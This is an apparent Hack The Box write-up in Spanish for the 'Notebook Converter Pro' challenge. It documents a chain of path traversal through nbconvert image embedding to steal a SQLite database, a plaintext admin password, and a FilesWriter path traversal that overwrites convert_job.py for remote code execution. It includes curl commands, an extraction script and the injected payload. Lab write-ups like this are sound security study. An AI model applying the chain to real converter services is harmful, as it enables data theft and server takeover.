


# Notebook Converter Pro

Este challenge de HTB da como descripcion *"Welcome to NotebookConverter Pro, a tool for converting Jupyter notebooks into different formats with ease. While it appears simple and efficient, there may be more happening behind the scenes than meets the eye."*

Primero se inicia el target host para ver de que trata el challenge.



Despues de crea un usuario y hacer login se puede ver una pagina simple de conversion de cuadernos de jupiter a HTML o markdown.

### Herramientas Utilizadas

| Herramienta | Propósito |
|---|---|
| `curl` | Interacción con los endpoints HTTP (registro, login, upload, download) |
| `python3` | Extracción de credenciales desde SQLite embebido en HTML (base64) |
| `bash` | Automatización del exploit completo |
| `nbconvert` (nbformat) | Conocimiento del comportamiento interno para construir payloads `.ipynb` válidos |
| `sqlite3` (Python) | Consulta de la base de datos robada desde memoria |
| `base64` (Python) | Decodificación del blob embebido en el HTML de salida |

### Vulnerabilidad 1 — Arbitrary File Read via Path Traversal en `embed_images` (CWE-22)

En `converter/convert_job.py`, la función de conversión a HTML utiliza el exportador de `nbconvert` con la opción `embed_images = True`:

```python
def convert_html(input_path, output_dir):
    exporter = nbconvert.HTMLExporter()
    exporter.embed_images = True
    body, _resources = exporter.from_filename(str(input_path))
    output_path = output_dir / f"{input_path.stem}.html"
    output_path.write_text(body, encoding="utf-8")
    return output_path
```

Cuando `embed_images` está habilitado, `nbconvert` recorre cada referencia de imagen dentro del notebook, la lee desde el sistema de archivos y la incrusta en el HTML resultante codificada en Base64. El problema es que no existe ninguna validación sobre las rutas de imagen. Un atacante puede especificar rutas relativas con secuencias `../` que apunten a archivos arbitrarios del sistema:

```json
{
  "cells": [{
    "cell_type": "markdown",
    "source": [""]
  }]
}
```

Durante la conversión, `nbconvert` intentará leer `/data/app.db` y lo incrustará como `data:application/octet-stream;base64,...` dentro del HTML generado. El usuario puede descargarlo inmediatamente desde el endpoint `/jobs/<job_id>/download`.

**CWE asociado:** [CWE-22 — Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)

**CAPEC asociado:** [CAPEC-126 — Path Traversal](https://capec.mitre.org/data/definitions/126.html)


### Vulnerabilidad 2 — Contraseña de Admin en Texto Plano en SQLite (CWE-256)

En `db.py`, durante la inicialización la aplicación genera una contraseña aleatoria para el administrador y la almacena directamente en la base de datos sin hashing:

```python
admin_password = secrets.token_urlsafe(14)

conn.execute(
    "INSERT INTO users (username, password, role) VALUES (?, ?, ?)",
    ("admin", admin_password, "admin"),
)
```

Aunque `secrets.token_urlsafe` genera valores criptográficamente seguros, almacenarlos en claro hace que cualquier acceso a la base de datos equivalga a obtener las credenciales de administrador de inmediato.

**CWE asociado:** [CWE-256 — Plaintext Storage of a Password](https://cwe.mitre.org/data/definitions/256.html)

---

### Vulnerabilidad 3 — Path Traversal en `FilesWriter` → Remote Code Execution (CWE-22 + CWE-94)

En `conversions.py`, cuando `asset_storage_enabled` está activo y el formato es Markdown, se utiliza el modo `saved_assets`:

```python
def determine_storage_mode(output_format):
    if output_format == "markdown":
        return "saved_assets" if setting_enabled("asset_storage_enabled") else "single_file"
    return "single_file"
```

En este modo, `convert_job.py` delega en la clase `FilesWriter` de `nbconvert`:

```python
writer = FilesWriter(build_directory=str(output_dir))
written_path = writer.write(body, resources, notebook_name=input_path.stem)
```

`FilesWriter` construye las rutas de los archivos adjuntos concatenando `build_directory` con el nombre del attachment tal como viene en el notebook, sin validar secuencias `../`. Esto permite a un atacante incluir en el notebook un attachment con nombre como:

```
../../../../app/converter/convert_job.py
```

El archivo se escribe fuera del directorio previsto, sobreescribiendo el script legítimo de conversión. Dado que ese archivo es ejecutado como subproceso por la aplicación en cada conversión posterior (ver `conversions.py` → `subprocess.run([sys.executable, str(CONVERTER_SCRIPT), ...])`), cualquier código Python inyectado en él será ejecutado en el servidor con los privilegios del proceso.

**CWE asociado:** [CWE-22 — Path Traversal](https://cwe.mitre.org/data/definitions/22.html) + [CWE-94 — Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)

**CAPEC asociado:** [CAPEC-17 — Using Malicious Files](https://capec.mitre.org/data/definitions/17.html) + [CAPEC-253 — Remote Code Inclusion](https://capec.mitre.org/data/definitions/253.html)


### Procedimiento de Explotación

#### 1. Registro y Login

Se registra un usuario regular y se inicia sesión para obtener una cookie de sesión válida.

```bash
curl -s -X POST "$TARGET/register" -c /tmp/c.txt \
  -d "username=$USER&password=$PASS&confirm_password=$PASS"

curl -s -X POST "$TARGET/" -c /tmp/c.txt -b /tmp/c.txt \
  -d "username=$USER&password=$PASS"
```

El endpoint `/register` crea el usuario en la tabla `users` con `role='user'`. El login almacena `user_id` en la sesión Flask.


#### 2. Robo de la Base de Datos (AFR)

Se construye un notebook malicioso que referencia la base de datos como si fuera una imagen:

```json
{
  "cells": [{
    "cell_type": "markdown",
    "source": [""]
  }],
  "nbformat": 4,
  "nbformat_minor": 4
}
```

Se sube al endpoint `/convert` con formato `html`. `nbconvert` procesa la referencia de imagen, lee `/data/app.db` y lo incrusta en base64 en el HTML de salida. El HTML resultante tiene ~320 KB.

```bash
curl -s -X POST "$TARGET/convert" \
  -c /tmp/c.txt -b /tmp/c.txt \
  -F "notebook=@/tmp/steal.ipynb" \
  -F "format=html"
# → Redirect a /jobs/<job_id>

curl -s "$TARGET/jobs/$JOB_ID/download" \
  -c /tmp/c.txt -b /tmp/c.txt -o /tmp/db_out.html
# HTML: 320318 bytes
```

#### 3. Extracción de Credenciales

Se parsea el HTML descargado, se localiza el blob base64 del SQLite (firma `SQLite` en los primeros 6 bytes), se escribe a disco y se consulta directamente:

```python
import re, base64, sqlite3

html = open('/tmp/db_out.html', 'rb').read().decode('utf-8', errors='replace')
for m in re.findall(r'data:[^;]*;base64,([A-Za-z0-9+/=]+)', html):
    data = base64.b64decode(m)
    if data[:6] == b'SQLite':
        open('/tmp/stolen.db', 'wb').write(data)
        conn = sqlite3.connect('/tmp/stolen.db')
        row = conn.execute("SELECT password FROM users WHERE role='admin'").fetchone()
        conn.close()
        if row: print(row[0])
        break
```

Resultado:

```
Admin password: 8SMnPhCXWiF2Mozdv4U
```

#### 4. Login como Admin y Habilitación de `asset_storage`

Con las credenciales obtenidas se inicia sesión como administrador y se activa la opción `asset_storage_enabled` desde el panel de administración:

```bash
curl -s -X POST "$TARGET/" -c /tmp/a.txt -b /tmp/a.txt \
  -d "username=admin&password=$ADMIN_PASS" -L

curl -s -X POST "$TARGET/admin" -c /tmp/a.txt -b /tmp/a.txt \
  -d "asset_storage_enabled=on"
```

Esta configuración cambia el `storage_mode` de Markdown a `saved_assets`, que activa el uso de `FilesWriter` y habilita la escritura arbitraria de archivos.

#### 5. Sobreescritura de `convert_job.py` (Path Traversal → File Write)

Se construye un notebook que contiene como attachment un archivo Python malicioso bajo una ruta con path traversal:

```python
nb = {
  "cells": [{
    "cell_type": "markdown",
    "attachments": {
      "../../../../app/converter/convert_job.py": {
        "application/octet-stream": base64.b64encode(code.encode()).decode()
      }
    },
    "source": ["# pwn"]
  }],
  ...
}
```

El payload inyectado en `convert_job.py` ejecuta `/readflag`, escribe el output en el `output_dir` del job y retorna el path vía JSON para que `conversions.py` lo registre en la DB y lo sirva por `/download`:

```python
import subprocess, json, sys, os
from pathlib import Path

r = subprocess.run(['/readflag'], capture_output=True, text=True)
flag = r.stdout.strip()

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--output-dir', required=False)
args, _ = parser.parse_known_args()

if args.output_dir:
    out = Path(args.output_dir) / 'flag.html'
    out.write_text(f'<html><body><h1>{flag}</h1></body></html>')
    print(json.dumps({"status": "ok", "output_path": str(out)}))
```

Se sube `pwn.ipynb` en formato Markdown con `asset_storage` activo. `FilesWriter` escribe el attachment en `../../../../app/converter/convert_job.py`, sobreescribiendo el script legítimo.

```
PWN Job: e36a3c2fe548
```

### 6. Trigger del RCE

Para ejecutar el payload es suficiente enviar cualquier conversión, ya que `conversions.py` invoca `convert_job.py` como subproceso en cada job:

```python
completed = subprocess.run(
    [sys.executable, str(CONVERTER_SCRIPT), "--input", ..., "--output-dir", ...],
    ...
)
```

Al ejecutarse, el script sobreescrito corre `/readflag`, escribe el flag en un HTML y retorna su path. `conversions.py` almacena ese path en la DB como `output_path` del job.

```bash
curl -s "$TARGET/jobs/$JOB_ID2/download" \
  -c /tmp/a.txt -b /tmp/a.txt -o /tmp/flag_out.html
# [+] Download: 72 bytes
```

### 7. Flag

```
FLAG: HTB{y3t_4n0th3r_pyth0n_c0nv3rt3r_cve}
```

Todo este procedimiento si se automatiza en un .sh se ve de esta manera:




## Problemas Encontrados

Durante la explotación se presentaron los siguientes inconvenientes:

**Parseo del blob SQLite en el HTML.** El HTML generado por `nbconvert` puede contener múltiples bloques base64 (imágenes de la interfaz, recursos del tema, etc.). Fue necesario filtrar por la firma mágica `b'SQLite'` en los primeros 6 bytes del dato decodificado para identificar correctamente la base de datos entre los demás blobs.

**Construcción correcta del notebook para `FilesWriter`.** La clave del attachment debe coincidir exactamente con el nombre del archivo destino incluyendo la secuencia de path traversal. El tipo MIME debe ser `application/octet-stream` para que `FilesWriter` lo trate como archivo binario y lo escriba directamente sin transformación.

**Retorno del path en el payload RCE.** `conversions.py` espera que el subproceso imprima en stdout un JSON con la forma `{"status": "ok", "output_path": "<ruta>"}`. Si el payload no respeta este contrato, el job queda con `status=failed` y no hay endpoint de descarga disponible. El payload fue diseñado para imitar exactamente ese contrato y escribir el flag en el `output_dir` del job para que sea descargable de forma normal.